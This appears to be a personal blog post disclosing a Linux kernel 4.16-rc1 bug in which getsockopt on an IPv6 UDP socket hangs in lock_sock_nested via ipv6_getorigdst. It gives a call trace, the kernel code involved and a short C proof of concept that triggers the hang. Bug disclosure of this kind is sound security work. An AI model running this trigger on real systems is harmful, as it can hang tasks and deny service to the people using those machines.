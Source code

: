 ```yaml
---
layout: post
title: LK v4.16.x - getsockopt - task hung
---
```


getsockopt - task hung in lock_sock_nested

posted & found by [zer0day](https://kozistr.github.io/)

## tl;dr

Posting in a long time :) because of other stuffs... I have a few LK bugs too, but skip it :)..

I just found a bug, task hung in lock_sock_nested on the latest LK (v4.16.0-rc1). Of course, from the conclusion, it's not critical and meaningless bug for me :(.
So i just simply add a short PoC which can reproduce a bug and Call Trace.

## Call Trace (Dump)

Here's a Call Trace. task hung (default 120s).

```sh
root@zer0day:~# uname -a
Linux zer0day 4.16.0-rc1+ #14 SMP Wed Feb 14 17:44:19 KST 2018 x86_64 GNU/Linux
root@zer0day:~# gcc -o poc poc.c
root@zer0day:~# ./poc
[  369.631452] INFO: task poc:2481 blocked for more than 120 seconds.
[  369.633340]       Not tainted 4.16.0-rc1+ #14
[  369.634552] "echo 0 > /proc/sys/kernel/hung_task_timeout_secs" disables this message.
[  369.636478] poc             D13984  2481   2464 0x00000000
[  369.638015] Call Trace:
[  369.638825]  ? __schedule+0x2a9/0xa90
[  369.639792]  ? __local_bh_enable_ip+0x7b/0xe0
[  369.640823]  schedule+0x2a/0x80
[  369.641559]  __lock_sock+0xa1/0x130
[  369.642395]  ? finish_wait+0x80/0x80
[  369.643189]  lock_sock_nested+0x9f/0xb0
[  369.643383]  ipv6_getorigdst+0x9e/0x2c0
[  369.643572]  ? __mutex_unlock_slowpath+0x46/0x2b0
[  369.643811]  ? nf_getsockopt+0x47/0x80
[  369.643996]  nf_getsockopt+0x47/0x80
[  369.644185]  ipv6_getsockopt+0x10a/0x170
[  369.644380]  udpv6_getsockopt+0x40/0x80
[  369.644569]  SyS_getsockopt+0x84/0xf0
[  369.644754]  do_syscall_64+0x74/0x210
[  369.644941]  entry_SYSCALL_64_after_hwframe+0x26/0x9b
[  369.645200] RIP: 0033:0x7f340483008a
[  369.645376] RSP: 002b:00007ffd08d09478 EFLAGS: 00000206 ORIG_RAX: 0000000000000037
[  369.645742] RAX: ffffffffffffffda RBX: 0000000000000000 RCX: 00007f340483008a
[  369.646101] RDX: 0000000000000050 RSI: 0000000000000029 RDI: 0000000000000003
[  369.646443] RBP: 00007ffd08d09490 R08: 00007ffd08d09480 R09: 00007f3404aec2e0
[  369.646785] R10: 0000000000000000 R11: 0000000000000206 R12: 0000000000400450
[  369.647148] R13: 00007ffd08d09570 R14: 0000000000000000 R15: 0000000000000000
[  369.647499] 
[  369.647499] Showing all locks held in the system:
[  369.647802] 1 lock held by khungtaskd/439:
[  369.648026]  #0:  (tasklist_lock){.+.+}, at: [<00000000d02fdb21>] debug_show_all_locks+0x37/0x1a0
[  369.648470] 1 lock held by rsyslogd/2361:
[  369.648687]  #0:  (&f->f_pos_lock){+.+.}, at: [<0000000066b64151>] __fdget_pos+0x52/0x60
[  369.649092] 2 locks held by getty/2444:
[  369.649279]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.649714]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.650156] 2 locks held by getty/2445:
[  369.650343]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.650762]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.651203] 2 locks held by getty/2446:
[  369.651390]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.651813]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.652256] 2 locks held by getty/2447:
[  369.652443]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.652864]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.653305] 2 locks held by getty/2448:
[  369.653492]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.653915]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.654356] 2 locks held by getty/2449:
[  369.654542]  #0:  (&tty->ldisc_sem){++++}, at: [<000000004c37478c>] tty_ldisc_ref_wait+0x20/0x50
[  369.654961]  #1:  (&ldata->atomic_read_lock){+.+.}, at: [<00000000e92c7245>] n_tty_read+0xec/0xa60
[  369.655424] 1 lock held by poc/2481:
[  369.655599]  #0:  (sk_lock-AF_INET6){+.+.}, at: [<000000002374a639>] ipv6_getsockopt+0xf2/0x170
[  369.656030] 
[  369.656108] =============================================
[  369.656108]
```

## Bug

With above Call Trace, i can notice, there is a lock_sock_nested in ipv6_getorigdst where the bug happened. 
At **/net/ipv6/netfilter/nf_conntrack_l3proto_ipv6.c:233**,

```c
...
static int
ipv6_getorigdst(struct sock *sk, int optval, void __user *user, int *len)
{
	struct nf_conntrack_tuple tuple = { .src.l3num = NFPROTO_IPV6 };
	const struct ipv6_pinfo *inet6 = inet6_sk(sk);
	const struct inet_sock *inet = inet_sk(sk);
	const struct nf_conntrack_tuple_hash *h;
	struct sockaddr_in6 sin6;
	struct nf_conn *ct;
	__be32 flow_label;
	int bound_dev_if;

	lock_sock(sk);
	tuple.src.u3.in6 = sk->sk_v6_rcv_saddr;
	tuple.src.u.tcp.port = inet->inet_sport;
	tuple.dst.u3.in6 = sk->sk_v6_daddr;
	tuple.dst.u.tcp.port = inet->inet_dport;
	tuple.dst.protonum = sk->sk_protocol;
	bound_dev_if = sk->sk_bound_dev_if;
	flow_label = inet6->flow_label;
	release_sock(sk);
	...
```

As you also know, **lock_sock_nested** looks like below... (*subclass* is zero in this case))

```c
void lock_sock_nested(struct sock *sk, int subclass)
{
	might_sleep(); // debug message is printed by this.
	spin_lock_bh(&sk->sk_lock.slock);
	if (sk->sk_lock.owned)
		__lock_sock(sk);
	sk->sk_lock.owned = 1;
	spin_unlock(&sk->sk_lock.slock);
	/*
	 * The sk_lock has mutex_lock() semantics here:
	 */
	mutex_acquire(&sk->sk_lock.dep_map, subclass, 0, _RET_IP_);
	local_bh_enable();
}
```

In short, maybe, there is a task hung in ipv6_getorigdst while holding the socket lock, so it's blocking other tasks too.

## POC

Here's a PoC code for reproducing.

```c
#define _GNU_SOURCE 

#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

int main() {
	int size = 4;
	void *p = (void *)0;

	int s = socket(0xa, 2, 0);           // socket@inet6_udp
	getsockopt(s, 0x29, 0x50, p, &size); // getsockopt@inet6_int

	return 0;
}
```

**END**